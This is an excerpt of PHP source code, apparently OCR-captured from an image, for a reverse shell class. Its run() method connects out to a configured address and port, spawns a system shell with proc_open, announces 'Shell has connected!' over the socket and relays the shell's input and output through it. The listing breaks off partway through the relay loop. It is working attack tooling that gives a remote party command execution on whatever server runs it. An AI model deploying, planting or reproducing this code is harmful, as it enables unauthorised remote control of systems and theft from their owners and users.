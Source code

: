 ```
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
```